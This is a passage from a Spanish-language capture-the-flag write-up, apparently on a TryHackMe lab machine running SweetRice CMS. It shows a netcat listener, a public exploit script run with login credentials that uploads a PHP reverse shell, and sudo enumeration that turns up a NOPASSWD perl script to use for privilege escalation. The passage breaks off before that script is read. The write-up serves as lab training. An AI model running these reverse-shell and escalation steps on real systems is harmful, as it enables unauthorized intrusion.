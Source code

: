```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.9.85.95] from (UNKNOWN) [10.10.224.5] 58424
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$
```

Hacemos un [Tratamiento de la tty](/posts/tratamiento-tty) para trabajar de manera más cómoda. Para facilitar la intrusión, se puede hacer uso del recurso [SweetRice-CMS-exploit](https://github.com/k4miyo/SweetRice-CMS-exploit).

```bash
❯ python3 sweetrice.py --url http://10.10.170.246/content --user manager --passwd Password123 --lhost 10.9.85.95
[+] Login CMS SweetRice: Login successful
[+] Shell: Established connection!
[+] Trying to bind to :: on port 443: Done
[+] Waiting for connections on :::443: Got connection from ::ffff:10.10.170.246 on port 59212
[+] Reading file: File php-reverse-shell.php5 exists!
[+] File: File uploaded
[+] Reverse Shell: Correct reverse shell
[*] Switching to interactive mode
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 04:57:01 up  1:57,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ $ whoami
www-data
$
```

En la ruta `/home/itguy` podemos encontrar la primera flag (user.txt). Ahora debemos buscar la forma de escalar privilegios:

```bash
www-data@THM-Chal:/home/itguy$ id 
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@THM-Chal:/home/itguy$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
www-data@THM-Chal:/home/itguy$
```

Podemos ejecutar `/usr/bin/perl /home/itguy/backup.pl` como cualquier usuario sin proporcionar contraseña, por lo tanto, vamos a echar un ojo al archivo `/home/itguy/backup.pl`:
